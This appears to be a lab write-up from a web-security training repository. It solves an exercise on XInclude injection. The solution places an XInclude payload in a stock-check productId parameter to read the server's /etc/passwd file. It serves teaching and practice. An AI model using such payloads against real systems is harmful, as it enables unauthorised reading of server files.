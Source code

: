 # Lab: Exploiting XInclude to retrieve files

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/f81e06e0-cef5-44f0-851e-f0209145e72e)

## Solution

The application has a product stock check endpoint.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/63566f60-dcb6-4947-b2eb-e88c398b254e)

The number of stock is being checked by a `productId` parameter.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ff618c25-22ff-420f-b5f0-30ac5c18306a)

Set the value of the `productId` parameter to:

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

This retrieves the `/etc/passwd` file.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4d982953-82fe-47e8-96cb-1b04674958c7)

Retrieving the `/etc/passwd` solves the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4c0cf22f-0c1b-4579-8caf-437bdc7e019c)
